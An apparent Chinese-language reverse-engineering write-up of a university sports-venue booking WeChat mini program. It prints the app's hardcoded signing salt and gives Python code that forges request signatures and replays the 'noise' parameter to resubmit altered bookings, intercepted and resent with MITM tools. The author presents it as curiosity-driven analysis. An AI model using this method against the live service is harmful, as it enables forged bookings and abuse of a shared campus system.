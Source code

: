 # 中科大运动小程序预约分析P1

>  杨旭写于2024.08.13

说明：目标是版本103的小程序，我分析过两版小程序，其中参数sign有些改变

mac平台工具：burpsuit、QuantumultX、Pycharm、vscode

Windows平台工具：wxapkg(https://github.com/wux1an/wxapkg)

## 1. 解析小程序拿到源码

使用wxapkg解析103版本的微信小程序，该工具只能在windows系统下运行。尽管也有mac下的解包软件，但是实测没有这个好用。

## 2. 分析代码

### 2.1 默认请求函数

小程序发送请求的默认函数，可以分析的是每次发送get请求和post请求时，都会在原有参数的基础上，添加open_id，version，timestamp（毫秒时间戳）和sign参数，sign参数是把参数排序添加一段字符串计算md5值。

```javascript
var n = function(e) {
  var n, r, l = getApp(),
    u = a(a({}, e.data), {}, {
      open_id: l.globalData.open_id,
      version: l.globalData.accountInfo.miniProgram.version || "1.0.0",
      timestamp: (new Date).getTime()
    });
  u.sign = (n = u, r = [], Object.keys(n).sort().map((function(e) {
    if (void 0 !== n[e] && null !== n[e]) {
      var a = n[e];
      "" !== (a = "object" === t(a) ? JSON.stringify(a) : a.toString().trim()) && r.push("".concat(e, "=").concat(a))
    }
  })), (0, s.default)(r.join("&") + "BwPimfkcRKAmHcbL9tnq")), "POST" === e.method && (u = i.Base64.encode(JSON.stringify({
    all_params: u
  }))), wx.request(a(a({}, e), {}, {
    data: u,
    url: o.base_url + e.url,
    header: a(a({}, e.header || {}), {}, {
      Platform: "MiniProgram",
      DeviceFingerprint: l.globalData.deviceFingerprint || "",
      "Wx-Env": l.globalData.environment || "",
      Authorization: "Bearer " + l.globalData.token
    }),
    success: function(a) {
      if (200 !== a.statusCode || 0 !== a.data.code) return 401 === a.statusCode ? (l.removeLogin(), void wx.navigateTo({
        url: "/pages/login/silent"
      })) : void(200 === a.statusCode ? e.fail ? e.fail(a.data) : wx.showModal({
        title: "提示",
        content: a.data.message || "系统错误",
        showCancel: !1,
        confirmText: "我知道了"
      }) : wx.showModal({
        title: "提示",
        content: a.data.message || "服务器错误:" + a.statusCode,
        showCancel: !1,
        confirmText: "我知道了",
        success: function(e) {
          401 === a.statusCode && wx.switchTab({
            url: "/pages/index/index"
          })
        }
      }));
      e.success && e.success(a.data.data)
    },
    fail: function(a) {
      console.log("wx.request.fail", a, e.fail), e.fail && e.fail(a.data)
    }
  }))
};
```

### 2.2 引入了wx云函数noise参数

让人恶心的事请求了一个微信的云函数，导致这里无法获取无法直接获取noise参数。调用mx_request_noise中，将调用n函数，也就是2.1中的函数请求真实url

```javascript
exports.mx_request_noise = function(e) {
        wx.cloud.init(), wx.cloud.callFunction({
            name: "noise",
            data: e.data
        }).then((function(t) {
            e.data = a(a({}, e.data), {}, {
                noise: t.result
            }), n(e)
        }))
    };
```

### 2.3 分析提交预约的请求分析

可以分析到的数据有data数据，data数据中有day，kind_id，share_open等，那么将这些数据发送给云函数，云函数将会返回一个noise参数。

```javascript
onFinish: function() {
            var t = arguments.length > 0 && void 0 !== arguments[0] && arguments[0],
                e = {
                    day: this.data.day_tab,
                    kind_id: this.data.venue_info.id,
                    share_open: this.data.share_open
                };
            if (e.selected_block = this.data.selected_block, !this.data.is_look_on && this.data.venue_info.need_partner && !t) {
                var a = this.data.partner_list.filter((function(t) {
                    return t.selected
                }));
                if (0 === a.length) return void(0, i.default)("最少需要邀请一名同伴");
                e.selected_partner = a
            }
            wx.showLoading({
                title: "正在提交...",
                mask: !0
            }), (0, o.mx_request_noise)({
                url: "/venue/order",
                method: "POST",
                data: e,
                success: function(t) {
                    wx.redirectTo({
                        url: "/pages/venue/success?order_no=".concat(t.result)
                    })
                },
                complete: function() {
                    wx.hideLoading()
                }
            })
        }
```

## 3. noise参数重放分析

经过分析noise函数可以重放，请求的noise参数发送给服务器，服务器并没有对提交预约的时间做验证，因而存在noise参数重放。相关测试代码将在下面给出。

### 3.1 sign参数的计算

发送get请求和post请求都会有一个sign值计算，由于python和javascript代码的差异有些地方需要调整，才能计算正确的sign值

```Python
def calculate_sign(data_dict):
    sorted_params = sorted(data_dict.items())
    param_list = []
    for key, value in sorted_params:
        if value is not None:
            if isinstance(value, dict):
                value = json.dumps(value, separators=(',', ':'))
            value = str(value).strip().replace(" ", "").replace("'", "\"").replace("True", "true").replace("False","false")
            if value:
                param_list.append(f"{key}={value}")

    concatenated_string = "&".join(param_list)
    final_string = concatenated_string + "BwPimfkcRKAmHcbL9tnq"
    md5_hash = hashlib.md5(final_string.encode('utf-8')).hexdigest()

    return md5_hash
```

### 3.2 post发送数据

接受一个数据字典，计算sign值添加key，然后替换掉一些字符处理，返回base64编码

```python
def encrypt_post_data(data_dict):
    sign_value = calculate_sign(data_dict)
    data_dict['sign'] = sign_value
    all_params = {
        "all_params": data_dict
    }
    json_str = json.dumps(all_params)
    json_str = json_str.replace(" ", "").replace("'","\"").replace("True", "true")
    base64_encoded = base64.b64encode(json_str.encode('utf-8')).decode('utf-8')

    return base64_encoded
```

### 3.3 利用已有post内容更新为新的post内容

计算一个新的时间戳，修改预约的时间，然后再计算sign填入，修改一些字符，最后base64编码

```python
def update_old_param(data):
    param = data
    param_json = base64.b64decode(param).decode("utf-8")
    res = json.loads(param_json)

    del(res['all_params']['sign'])
    res['all_params']['timestamp'] = int(time.time()*1000)
    res['all_params']['selected_block'][0]['hour'] = 18
    res['all_params']['selected_block'][1]['hour'] = 18
    res['all_params']['selected_block'][0]['min'] = 0
    res['all_params']['selected_block'][1]['min'] = 15
    res['all_params']['sign'] = calculate_sign(res['all_params'])


    json_str = json.dumps(res)
    json_str = json_str.replace(" ", "").replace("'", "\"").replace("True", "true")
    print(json_str)
    base64_encoded = base64.b64encode(json_str.encode('utf-8')).decode('utf-8')

    print(base64_encoded)
```

### 3.4 操作流程

使用QuantumultX在mac上开启mitm、http抓包，找到`POST /api/venue/order `的包，将旧的post内容中引号内数据使用update_old_param函数修改一些数据，生成新的post内容，使用burpsuit发出。这个流程需要在一分钟内结束，否则就会出现签名错误。

## 4. 结果分析

noise参数在服务器端应该也有一个验证，虽然这个不是很严重的问题。能否用于抢预约，本人没有这个需求，因而没有继续研究。研究这个小程序也是Just for fun。

